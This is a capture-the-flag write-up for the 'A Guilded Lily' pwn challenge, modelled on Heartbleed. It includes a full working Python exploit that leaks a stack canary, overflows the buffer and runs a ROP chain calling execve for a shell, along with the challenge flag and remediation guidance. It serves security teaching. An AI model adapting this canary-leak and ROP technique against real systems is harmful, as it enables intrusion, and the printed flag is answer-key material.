



# A Guilded Lily

**Category:** Exploitation (Pwn)
**Challenge:** A Guilded Lily
**CTF:** Pointer Overflow CTF 2023
**Result:** Solved

**Flag:**

~~~text
poctf{uwsp_4_57udy_1n_5c42137}
~~~

---

## 1. Challenge Overview

This challenge is inspired by the Heartbleed vulnerability (CVE-2014-0160) in OpenSSL. A statically linked binary (`exploit2.bin`) runs on a remote server and simulates a heartbeat mechanism. The program accepts input in `length:data` format but fails to validate the actual input length against the declared length, allowing us to leak stack memory, including the stack canary.

The challenge description hints that there are plenty of ROP gadgets but no `/bin/sh` string in the binary. We need to write `/bin/sh` to a writable memory region ourselves using ROP.

**Target:** `34.123.210.162:20233`

---

## 2. Binary Analysis

Checking protections with `checksec`:

- **Stack canary:** Enabled
- **NX:** Enabled
- **PIE:** Disabled (addresses are fixed)
- **Static linking:** Confirmed with `file` command

---

## 3. Source Code Analysis

The decompiled logic shows:

1. The program reads input in `%d:%s` format, where the integer is stored in `v8` and the string in `v9`
2. It prints `v8` bytes starting from `v9`'s location on the stack
3. The outer loop continues while `v8 > 0`

This means we can declare a length larger than our actual input to leak data beyond our buffer, including the stack canary.

---

## 4. Exploitation Strategy

### Step 1: Leak the Stack Canary

Send a heartbeat request with a declared length of 1100 but only 1032 bytes of data. The program will print 1100 bytes from the stack, leaking the canary at offset 1032:

~~~python
p = b' 1100:' + b'a' * 1032
# Canary is at bytes 1032-1040 of the response
~~~

### Step 2: ROP Chain to Spawn a Shell

Since the binary is statically linked with no `/bin/sh` string, we use ROPgadget to build a chain that:

1. Writes `/bin//sh` to the `.data` section
2. Sets up `rdi`, `rsi`, `rdx` for `execve` syscall
3. Sets `rax = 59` (syscall number for `execve`)
4. Triggers `syscall`

~~~bash
ROPgadget --binary exploit2.bin --ropchain
~~~

---

## 5. Exploit Script

~~~python
# Original solve by a101e-lab, adapted for this writeup
from struct import pack as spack
from pwn import *

r = remote('34.123.210.162', 20233)
context(arch='amd64', os='linux', log_level='debug')
r.recvuntil(b'Waiting for heart beat request...\n')

# Step 1: Leak canary
p = b' 1100:' + b'a' * 1032
r.sendline(p)
r.recvline()
canary = r.recvline()[1032:1040]
r.recvuntil(b'Waiting for heart beat request...\n')

# Step 2: Overflow with ROP chain
p = b' 1:' + b'a' * 1032 + canary + b'a' * 8

# Write "/bin//sh" to .data section
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e0)  # @ .data
p += spack('<Q', 0x0000000000451fd7)  # pop rax ; ret
p += b'/bin//sh'
p += spack('<Q', 0x0000000000499b65)  # mov qword ptr [rsi], rax ; ret

# Null-terminate the string
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x000000000044c190)  # xor rax, rax ; ret
p += spack('<Q', 0x0000000000499b65)  # mov qword ptr [rsi], rax ; ret

# Setup execve(rdi="/bin//sh", rsi=NULL, rdx=NULL)
p += spack('<Q', 0x00000000004018e2)  # pop rdi ; ret
p += spack('<Q', 0x00000000004df0e0)  # @ .data
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x00000000004017ef)  # pop rdx ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8

# Set rax = 59 (execve syscall number)
p += spack('<Q', 0x000000000044c190)  # xor rax, rax ; ret
p += spack('<Q', 0x000000000048ec70) * 59  # add rax, 1 ; ret (x59)
p += spack('<Q', 0x00000000004012e3)  # syscall

r.sendline(p)
r.recvuntil(b'Waiting for heart beat request...\n')
r.sendline(b' 0:!')
r.interactive()
~~~

---

## 6. Attack Path Summary

~~~text
exploit2.bin (static, canary, NX)
    |
Heartbleed-style memory leak -> stack canary
    |
Buffer overflow past canary
    |
ROP chain: write "/bin//sh" to .data
    |
execve syscall -> shell
    |
cat /home/re/flag -> FLAG
~~~

---

## 7. Lessons Learned

| # | Finding | Real-World Relevance | Key Takeaway |
|---|---------|---------------------|--------------|
| 1 | Missing length validation causes memory disclosure | CVE-2014-0160 (Heartbleed) affected millions of servers by leaking 64KB of heap memory per request | Always validate that declared length matches actual input length |
| 2 | Stack canary can be leaked before exploitation | If the application echoes back stack content, canary protection is bypassed | Canaries protect against blind overflow but not information disclosure |
| 3 | Static binaries provide abundant ROP gadgets | Large static binaries contain enough gadgets to build arbitrary syscall chains | Static linking increases attack surface for ROP; prefer dynamic linking when possible |
| 4 | Writable .data section enables string injection | When no useful strings exist in the binary, attackers write their own to writable memory | Mark memory sections with minimal necessary permissions (W^X) |

---

## MITRE ATT&CK Mapping

| Phase | Tactic | Technique | TTP-ID |
|-------|--------|-----------|--------|
| Initial Access | TA0001 | Exploit Public-Facing Application | T1190 |
| Execution | TA0002 | Exploitation for Client Execution | T1203 |
| Privilege Escalation | TA0004 | Exploitation for Privilege Escalation | T1068 |
| Defense Evasion | TA0005 | Exploitation for Defense Evasion | T1211 |

> MITRE ATT&CK: https://attack.mitre.org/

---

## Remediation and Containment

### Technical Fixes

1. Validate input length against actual data received before processing heartbeat responses
2. Compile with full protections: stack canary, NX, PIE, RELRO, and ASLR
3. Prefer dynamic linking to reduce available ROP gadgets in the binary
4. Use memory-safe languages (Rust, Go) for network-facing services to eliminate buffer overflow classes entirely

### MITRE D3FEND Countermeasures

- **D3-SEA Stack Frame Canary Validation** to detect canary corruption attempts (counters T1203)
- **D3-PSEP Process Segment Execution Prevention** to enforce NX and prevent shellcode execution (counters T1068)
- **D3-ASLR Address Space Layout Randomization** to make ROP gadget addresses unpredictable (counters T1211)

### NIST CSF 2.0

- **Protect (PR.IP-12):** A vulnerability management plan is developed and implemented
- **Detect (DE.CM-8):** Vulnerability scans are performed to identify exploitable memory safety bugs

### NIST SP 800-53 Rev. 5

- **SI-16: Memory Protection** (enable stack canaries, ASLR, NX, PIE)
- **SI-2: Flaw Remediation** (patch memory safety vulnerabilities promptly)

### CWE

- **CWE-126: Buffer Over-read** (reading beyond buffer bounds, identical to Heartbleed)
- **CWE-121: Stack-based Buffer Overflow** (overflow allows ROP chain execution)

---

## References

- Based on solve approach from [a101e-lab](https://github.com/a101e-lab/CTF-Writeups)

---

Thanks guys!! (❍ᴥ❍ʋ)

---

This Heartbleed-inspired challenge packs canary leaks, ROP chains, and syscall crafting into one binary. If you enjoyed this deep dive into pwn fundamentals, let me know what you thought.

- Instagram: https://www.instagram.com/uniaogeek
- LinkedIn: http://linkedin.com/in/mrhenrike
- X: https://x.com/mrhenrike
